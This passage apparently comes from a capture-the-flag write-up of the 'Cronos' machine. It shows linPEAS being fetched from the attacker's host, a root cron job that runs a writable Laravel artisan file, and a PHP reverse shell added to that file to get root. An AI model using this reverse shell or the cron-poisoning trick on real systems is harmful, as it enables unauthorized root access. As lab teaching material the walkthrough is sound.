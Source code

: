 ### Enumeration

I’ll go into my local [linPEAS](https://github.com/carlospolop/privilege-
escalation-awesome-scripts-suite/tree/master/linPEAS) directory and start a
Python3 webserver. Then I can grab it from Cronos:

    
    
    www-data@cronos:/dev/shm$ wget 10.10.14.24/linpeas.sh
    --2020-04-08 15:22:05--  http://10.10.14.24/linpeas.sh
    Connecting to 10.10.14.24:80... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 159864 (156K) [text/x-sh]                                         
    Saving to: 'linpeas.sh'
    
    linpeas.sh          100%[===================>] 156.12K  --.-KB/s    in 0.05s
    
    2020-04-08 15:22:05 (2.98 MB/s) - 'linpeas.sh' saved [159864/159864]  
    

Now run it, and in the Cron jobs section, the last line is red:

    
    
    www-data@cronos:/dev/shm$ bash linpeas.sh                                                                 ...[snip]...
    [+] Cron jobs
    [i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#scheduled-jobs
    -rw-r--r-- 1 root root  797 Apr  9  2017 /etc/crontab 
    ...[snip]...
    * * * * *       root    php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1
    ...[snip]...
    

The cron syntax here says that it will run every minute, as root:

![Crontab tips and tricks -
EazyLinux](https://0xdfimages.gitlab.io/img/crontab-syntax.png)

The command is `php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1`

I don’t really need to know what the Laravel artisan is doing. What does
matter is that as www-data, I have write permissions on that file:

    
    
    www-data@cronos:/var/www/laravel$ ls -la artisan 
    -rwxr-xr-x 1 www-data www-data 1646 Apr  9  2017 artisan
    

### Poison artisan

I’ll open the `artisan` file and add two lines at the top:

    
    
    <?php
    
    $sock=fsockopen("10.10.14.24", 443);
    exec("/bin/sh -i <&3 >&3 2>&3");
    /*
    |--------------------------------------------------------------------------
    | Register The Auto Loader
    |--------------------------------------------------------------------------
    